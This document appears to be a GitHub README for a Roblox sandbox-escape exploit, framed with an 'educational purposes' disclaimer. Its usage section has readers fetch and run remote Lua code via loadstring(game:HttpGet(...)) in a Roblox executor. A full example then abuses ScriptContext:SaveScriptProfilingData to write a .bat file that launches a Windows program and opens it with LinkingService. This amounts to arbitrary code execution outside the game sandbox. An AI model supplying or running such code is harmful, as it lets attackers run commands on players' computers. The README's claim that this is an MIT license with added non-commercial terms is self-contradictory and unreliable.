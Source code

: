 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made only to bypass `game` that are protected from vulnerabilities like `ScriptContext:SaveScriptProfilingData`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_game = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_game, why = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if bypassed_game ~= "Failed" and bypassed_game ~= "UnSupported" then
	local L, S = bypassed_game:GetService("LinkingService"), bypassed_game:GetService("ScriptContext")
	L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why ~= nil then
	print(why)
else
    print(bypassed_game)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
